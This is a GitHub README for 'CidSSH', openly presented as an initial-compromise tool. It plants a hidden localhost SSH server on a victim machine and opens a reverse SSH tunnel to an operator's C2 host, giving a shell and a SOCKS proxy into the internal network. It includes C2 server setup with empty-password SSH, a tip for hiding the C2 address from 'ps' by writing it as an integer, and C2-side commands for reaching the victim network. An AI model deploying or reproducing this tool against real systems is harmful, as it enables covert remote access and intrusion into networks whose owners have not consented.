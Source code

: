 # Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg)

Let's face it, there is no better shell than SSH. It just not only provides a rich encrypted shell communication but it can be used to create a socks proxy to browse the internal network of a system.

**CidSSH** is a statically compiled tool (no dependencies needed) that can be used to create an SSH server and a SSH client within just one binary. It will firstly, create RSA certificates, spin up an SSH server (listening in `localhost` and by default on port 2222),and finally create a reverse SSH tunnel with a C2 host specify by command lone. Due to the fact that the SSH server listens at `localhost`, external scanners won't detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple, not interactive shell.


## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous # change /bin/false to /path/to/Cid-Controller to use Cid-Controller
```

Allow blank passwords for SSH sessions for the `anonymous` user and restrict `anonymous` user to allow only reverse port forwarding:

```
sudo cat <<EOT >> /etc/ssh/sshd_config
PermitEmptyPasswords yes
ClientAliveInterval 120
ClientAliveCountMax 3

Match User anonymous
   AllowTcpForwarding remote
   X11Forwarding no
   PermitTunnel no
   GatewayPorts no
   AllowAgentForwarding no
   AllowStreamLocalForwarding no
   ForceCommand echo 'This is a disabled account'
EOT
```

Restart sshd:
```sudo systemctl restart ssh```

### Prebuilt binaries
You can just use the prebuilt binaries that are in [Release](https://github.com/RedRangerz/Cid-SSH/releases/tag/v1.0). They are ready to roll.

If you want to compile from source keep reading below.

## Compilation

### Compilation on Windows
You can use the `CMakeLists.txt` along with `CMake` to create a Visual Studio project.

To easy things installing dependencies you can use `vcpkg`:
```
# Install dependencies with vcpkg (static)
git clone https://github.com/Microsoft/vcpkg.git
cd vcpkg
bootstrap-vcpkg.bat
vcpkg install --triplet x86-windows-static boost-beast boost-asio boost-system libssh[core,openssl]

git submodule update --init --recursive
# Configure and compile project
cd Cid-SSH
cmake -S . -B build_ssh -G "Visual Studio 16 2019" -A x64 -DWITH_WEBSOCKETS=OFF -DCMAKE_TOOLCHAIN_FILE=C:/Users/alberto.garcia/Documents/code/vcpkg/scripts/buildsystems/vcpkg.cmake -DVCPKG_TARGET_TRIPLET=x86-windows-static ..
cmake --build_ssh . --config Release
cmake -S . -B build_wss -G "Visual Studio 16 2019" -A x64 -DWITH_WEBSOCKETS=ON -DCMAKE_TOOLCHAIN_FILE=C:/Users/alberto.garcia/Documents/code/vcpkg/scripts/buildsystems/vcpkg.cmake -DVCPKG_TARGET_TRIPLET=x86-windows-static ..
cmake --build_wss . --config Release
```


### Compilation on Linux
CidSSH is compiled statically for linux using musl (a replacement for libc) from an Alpine distribution `x86_64`. 

There is a `build.sh` command that can be used to build everything. Just do `sh build.sh` from an Alpine system or docker container.
```
sudo docker pull alpine:edge
sudo docker run --rm -v Cid-SSH:/Cid-SSH --name alpine -t -i alpine:edge /bin/bash
cd /Cid-SSH
sh build.sh
```

### Compilation on MacOs
There is a `build.sh` command that can be used to build everything. Just do `sh build.sh`

## Using it

Defaults: user is `anonymous` and default `LOCAL_SSH_SERVER_PORT` is 2222

Syntaxis:

`Cid-SSH.exe [user@]C2_hostname [LOCAL_SSH_SERVER_PORT]`

Examples:
```
Cid-SSH.exe 192.168.15.135
Cid-SSH.exe user@192.168.15.135 1234
Cid-SSH.exe user@192.168.15.135
```

You could also specify the IP address as an integer so it's not that obvious if `ps` is run:
```
Cid-SSH.exe -t 3232239495
```
Page to do the conversion: http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp

In the C2:
```
sudo netstat -ptan | grep sshd | grep LISTEN | grep anon
# Get the port number, replace the XXXXX 
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p XXXXX -oStrictHostKeyChecking=no -D 0.0.0.0:8888
# Extra: One-liner for two previous commands:
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p `sudo netstat -ptan | grep sshd | grep LISTEN | grep anon | cut -d : -f2 | cut -d" " -f1` -oStrictHostKeyChecking=no -D 0.0.0.0:8888
```
